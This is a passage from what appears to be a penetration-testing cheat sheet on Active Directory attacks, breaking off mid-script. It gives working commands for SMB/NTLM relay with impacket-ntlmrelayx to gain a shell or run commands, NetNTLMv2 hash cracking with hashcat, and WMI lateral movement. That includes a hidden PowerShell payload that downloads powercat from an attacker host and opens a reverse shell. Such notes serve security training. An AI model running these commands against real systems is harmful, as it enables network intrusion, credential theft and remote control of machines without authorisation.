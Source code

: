 ![Screenshot of NetNTLMv2 4](./images/netntlm-4.png)
    - Other SMB Relay Exploit
	    - Start Interactive Shell
		    - `sudo impacket-ntlmrelayx –tf <IP> –smb2support -i` → This might start interactive shell of target machine on 127.0.0.1:11000 (as given)
		    - `nc 127.0.0.1 11000` → might be able to access SMB Shares with Administrator’s privilege
		- Execute Command
			- `sudo impacket-ntlmrelayx –tf <IP> –smb2support –c "whoami"`
	- NetNTLMv2 Password Cracking
	    - `hashcat -h | grep -i "netntlm"` → `5600 | NetNTLMv2`
        - `hashcat -m 5600 <hash-file> <password-wordlist>`
#### AD Lateral Movement
- Objective here is to gain access to high-value targets with password hash and kerberos ticket obtained earlier, without need of cracking them.
- **WMI**
	- Requirement – Credentials of member of Administrators local group, which can also be domain user.
	- It communicates through port 135.
	- `PS> wmic /node:<IP> /user:<username> /password:<password> process call create "<command>"`
	- For getting reverse shell,
		- Payload -> `IEX(New-Object System.Net.WebClient).DownloadString('http://<Attacker-IP>/powercat.ps1'); powercat -c <IP> -p 4444 -e powershell`
		- Base64 encode this payload with Character set as UTF-16LE with this tool - [Base64encoder](https://www.base64encode.org/)
		- `PS> wmic /node:<IP> /user:<username> /password:<password> process call create "powershell -nop -w hidden –e <base64-encoded-payload>"`
	- Alternative - powershell script
```
// Prepare Credentials in proper format
$username = '<username>'; 
$password = '<password>'; 
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force; 
```